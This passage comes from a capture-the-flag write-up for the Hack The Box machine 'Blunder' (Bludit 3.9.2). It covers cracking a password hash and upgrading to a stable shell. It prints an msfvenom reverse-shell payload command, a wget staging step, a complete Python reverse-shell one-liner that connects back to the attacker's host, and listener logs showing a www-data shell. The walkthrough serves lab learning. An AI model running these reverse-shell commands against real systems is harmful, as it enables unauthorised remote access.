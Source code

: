 ```
}
```

We can use this password hash and head over to [CrackStation](https://crackstation.net/) to get the password. 

Even though now that we have the credentials for user 'Hugo', we can switch user because we don't have a stable shell. To convert this unstable shell to a stable one we can try commands like:

```
1. python -c ‘import pty;pty.spawn(“/bin/bash”)’
2. echo os.system('/bin/bash')
```

But none of these work. We can try to create a custom payload using `msfvenom`, send it to the target machine and execute it as:

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<your_ip> LPORT=443 -f elf > shell.elf
```

And this payload to the target machine by starting a `python3 -m http.server` on our attacking machine and using `wget` on the target machine. Once, the file is downloaded we can change it's permissions to executable and run it. But even this does not work.

Finally, I had some help from [Gray-0men](https://github.com/Gray-0men), who suggested me to start a python reverse shell from the unstable shell using the payload:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.x.x",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

We can now start another listener on port 443 using the command `nc -nvlp 443` and run the above command with our attacking machine's IP address on the target machine:

On target machine's previously obtained shell:

```
┌─[tester@parrot-virtual]─[~/Desktop/GitHub/Writeups/HackTheBox/Easy/blunder]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.10.191] 59284
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your-ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

On attacking machine:

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/cyberhacktics]
└──╼ $sudo nc -nvlp 443
[sudo] password for tester: 
listening on [any] 443 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.10.191] 53498
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ whoami
whoami
www-data
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ pwd
pwd
/var/www/bludit-3.9.2/bl-content/tmp/temp
```
